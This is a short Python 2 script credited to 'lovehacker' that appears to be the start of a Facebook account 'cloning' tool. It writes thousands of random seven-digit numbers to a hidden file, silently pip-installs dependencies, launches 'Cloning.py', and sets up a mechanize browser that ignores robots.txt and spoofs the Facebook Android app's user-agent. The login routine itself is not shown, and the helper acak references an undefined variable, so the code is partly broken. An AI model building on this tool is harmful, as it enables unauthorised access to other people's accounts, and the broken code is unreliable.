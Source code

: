 # Three#!/usr/bin/python2
#coding=utf-8
#The Credit For This Code Goes To lovehacker
#If You Wanna Take Credits For This Code, Please Look Yourself Again...
#Reserved2020
import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,getpass
os.system('rm -rf .txt')
for n in range(2000):

    nmbr = random.randint(1111111, 9999999)
    
    sys.stdout = open('.txt', 'a')

    print(nmbr)

    sys.stdout.flush()
    
try:
    import requests
except ImportError:
    os.system('pip2 install requests')
    
try:
    import mechanize
except ImportError:
    os.system('pip2 install mechanize')
    time.sleep(1)
    os.system('python2 Cloning.py')

import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,requests,mechanize
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser


reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1)
br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]
br.addheaders = [('user-agent','Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]

def keluar():
	print 'God by Frends '
	os.sys.exit()

def acak(b):
    w = 'ahtdzjc'
    d = ''
    for i in x:
        d += '!'+w[random.randint(0,len(w)-1)]+i
    return cetak(d)
